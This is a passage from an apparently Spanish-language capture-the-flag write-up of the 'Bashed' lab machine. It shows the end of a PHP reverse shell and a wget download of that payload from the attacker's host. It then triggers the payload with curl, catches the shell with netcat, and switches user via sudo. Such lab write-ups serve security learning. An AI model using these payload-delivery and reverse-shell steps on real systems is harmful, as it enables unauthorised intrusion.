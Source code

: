 ```bash
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.191.29 - - [06/May/2023 12:11:59] "GET /reverse.php HTTP/1.1" 200 -

www-data@bashed
:/var/www/html/uploads# wget http://10.10.16.42/reverse.php

--2023-05-06 09:13:11-- http://10.10.16.42/reverse.php
Connecting to 10.10.16.42:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5492 (5.4K) [application/octet-stream]
Saving to: 'reverse.php'

0K ..... 100% 336M=0s

2023-05-06 09:13:12 (336 MB/s) - 'reverse.php' saved [5492/5492]
```
Entonces solo hice un curl hacia la ruta en cuestion y deberia de llegarme una shell en mi puerto de escucha.
```bash
$ curl http://10.129.191.29/uploads/reverse.php

$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.42] from (UNKNOWN) [10.129.191.29] 41242
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 09:15:25 up 54 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
Una vez hecho esto hice un tratamiento de la tty rapido y ya por ultimo intente ejecutar una bash como scriptmanager.
```bash
www-data@bashed:/$ sudo -u scriptmanager bash
scriptmanager@bashed:/$ whoami
scriptmanager
```
# Shell como root
En la raiz encontre una carpeta en donde el propietario era scriptmanager.
```bash
scriptmanager@bashed:/$ ls -la
total 92
drwxr-xr-x  23 root          root           4096 Jun  2  2022 .
drwxr-xr-x  23 root          root           4096 Jun  2  2022 ..
-rw-------   1 root          root            212 Jun 14  2022 .bash_history
drwxr-xr-x   2 root          root           4096 Jun  2  2022 bin
```